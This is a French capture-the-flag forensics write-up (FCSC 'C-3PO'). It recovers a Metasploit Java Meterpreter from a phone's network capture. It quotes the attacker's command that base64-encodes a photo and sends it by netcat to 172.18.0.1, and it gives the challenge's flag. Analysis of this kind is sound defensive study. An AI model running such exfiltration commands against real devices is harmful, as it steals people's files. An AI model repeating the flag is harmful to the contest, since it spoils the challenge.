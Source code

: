 Catégorie : Forensics

Difficulté : :star:

---

# C-3PO

## Ennoncé

> Pour votre première analyse, on vous confie le téléphone du PDG de GoodCorp.
> 
> Ce dernier est certain que les précieuses photos stockées sur son téléphone sont récupérées par un acteur malveillant.
> 
> Vous décidez de mettre en place une capture réseau sur le téléphone, afin de voir ce qu'il en est...
> 
> SHA256(capture.cap) = 7b63c22567098f829dfdc190b6f531bbdf23a23e222508752a0a5e5dfa28259c (61Mo).
> 
> Note : les épreuves C-3PO, R2-D2 et R5-D4 sont indépendantes

---

## Solve

On a un fichier **cap**

- export objet http --> rien
- DNS --> exfiltration dns --> rien

```shell
tcpflow -r capture.cap -o output
mv output/* > output/dump
foremost -i output/dump -o output/foremost_out/
```

On trouve dans les fichiers récuperer `classes.dex`

```
cat 00051661/classes.dex
```

On trouve que l'acteur malveillant est un **meterpreter java metasploit**

Au final pour trouver le flag avec wireshark, il suffit d'effectuer la requête : `frame contains flag` et `Suivre --> flux tcp`

![](./img/wsk_request.png)

```shell
cat /sdcard/DCIM/flag.png | base64 | nc 172.18.0.1 13387
```

On a ensuite de la base64 qu'on va transformer en une image

![](./img/flag.png)

**Flag : FCSC{2d47d546d4f919e2d50621829a8bd696d3cd1938}**
